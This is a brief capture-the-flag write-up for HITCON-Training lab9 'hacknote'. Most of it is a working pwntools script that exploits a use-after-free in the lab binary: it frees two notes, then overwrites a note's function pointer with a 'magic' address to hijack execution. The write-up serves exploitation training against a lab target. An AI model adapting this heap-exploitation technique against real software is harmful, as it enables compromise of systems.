

# HITCON-Training lab9

## binary analysis

> Makefile
```
hacknote:hacknote.c
	gcc -m32 hacknote.c -o hacknote
```

I used this structure to analysis easier.

```c
struct Note {
  int (__cdecl *print)(int);
  char *buf;
};
```




## solve

```python
from pwn import *

context.arch = "i386"
# context.log_level = "DEBUG"

p = process("./hacknote")
e = ELF("./hacknote")

libc = ELF("../libc.so.6")

attach(p, "break *0x08048A7C\nc")

raw_input()

def addNote(size, body):
    p.sendlineafter(":", "1")
    p.sendlineafter(":", str(size))
    p.sendlineafter(":", body)

def deleteNote(index):
    p.sendlineafter(":", "2")
    p.sendlineafter(":", str(index))

def printNote(index):
    p.sendlineafter(":", "3")
    p.sendlineafter(":", str(index))

magic = 0x08048986

addNote(24, "aaaaaaaa")
addNote(24, "bbbbbbbb")
addNote(24 ,"cccccccc")

deleteNote(0)
deleteNote(1)

addNote(8, p32(magic))

printNote(0)

p.interactive()
```